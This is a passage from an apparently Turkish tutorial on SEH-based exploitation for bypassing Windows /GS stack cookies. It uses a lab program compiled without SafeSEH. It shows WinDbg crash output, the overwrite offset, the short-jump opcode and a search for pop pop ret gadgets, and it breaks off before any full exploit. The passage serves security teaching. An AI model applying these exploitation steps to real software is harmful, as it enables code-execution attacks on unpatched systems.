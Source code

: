 Burada resimde gördüğünüz üzre `strycpy()` bizim **SE Handler** üzerine yazıyor. Stack'e bakarsanız yazmaya devam ettiğimiz taktirde SEH'in üzerine yazdığımız için tamamen değişeceğini görebilirsiniz. Bu da demektir ki programın akışını yönlendirebiliriz. Bunun ardından kaynak kodun içerisindeki hatalı pointer kullanımı geliyor. Bakalım:

	MOV DWORD PTR SS:[EBP-21C],0   ;EBP-21C(0012FB8C) adresinde 4 byte sıfırlandı
	MOV EAX,DWORD PTR SS:[EBP-21C] ;Bu sıfırlanan 4 byte değeri EAX registerina alındı
	MOV DWORD PTR DS:[EAX],0A      ;EAX yazmacında bulunan adrese 0A verisi yazılmaya çalışılıyor

Görüldüğü gibi, EAX registerına alınan `00000000` adresine bir veri saklanmaya çalışılıyor. Haliyle program burada çöküyor ve istisna oluştuğu için exception handler devreye giriyor.

Şimdi yavaş yavaş **SEH** kullanarak Stack Cookie korumasının atlatılması kısmına giriş yapıyoruz. Öncelikle bu programın **SEH** exploitinin yazalım, ardından programı **/GS** koruması ile derleyip oradan devam edeceğiz. (Unutmadan ekleyeyim, programı `/SAFESEH:NO` olarak derliyoruz, aksi halde exploit edemeyiz! Şimdilik tabii.) **SEH** exploitini yazabilmek adına öncelikle metasploit yahut Immunity debugger ile **1000** karakter uzunluğunda bir pattern oluşturalım, ardından bunu python scriptimize ekleyelim ve akabinde Windbg yardımıyla debug ederek !exchain komutu ile **SEH** üzerine yazılan değerin *byakugan* eklentisi yardımıyla offsetini bulalım. (Kütüphanedeki bayan, lütfen ekranıma bakmayı bırakın, utanıyorum. Sevgiler.)

	0:000> g
	(f94.1a8): Access violation - code c0000005 (first chance)
	First chance exceptions are reported before any exception handling.
	This exception may be expected and handled.
	eax=00000000 ebx=00000000 ecx=35724134 edx=7c9032bc esi=00000000
    edi=00000000 eip=35724134 esp=0012f3e0 ebp=0012f400
	35724134 ??              ???
	  0:000> !exchain
	  0012f3f4: ntdll!ExecuteHandler2+3a (7c9032bc)
	  0012f7c4: ntdll!ExecuteHandler2+3a (7c9032bc)
	  0012fd98: 35724134
	  Invalid exception stack at 72413372
	0:000> !pattern_offset 1000
	  [Byakugan] Control of ecx at offset 524.
	  [Byakugan] Control of eip at offset 524.


**520** bayttan sonrası **SE handler** üzerine yazıyor demek ki. Onun ardından da **Next SEH** geliyor. Klasik **SEH** exploitlerinde nasıl oluyordu hatırlamaya çalışın. Biz SE Handler üzerine pop pop ret üçlüsünü, Next SEH üzerine de shellcodea atlayacak `jmp` instructionını yazıyorduk değil mi ? Pekala, o zaman haydi yapalım bakalım. Öncelikle 06 byte jump kodumuzun opcodeu `eb 06` idi. Bunu şu şekilde hex halinde ve iki nop ekleyerek yazıyorduk. `\xeb\x06\x90\x90` Şimdi bir de pop pop ret üçlüsünü bulmamız gerek. Bunun için Immunity Debugger'da `CTRL+S` kısayolu ile (Find Sequence of commands) `pop r32 pop 32 ret` şeklinde bir arama yapalım.

![](/files/gsbypasspopr32.png)
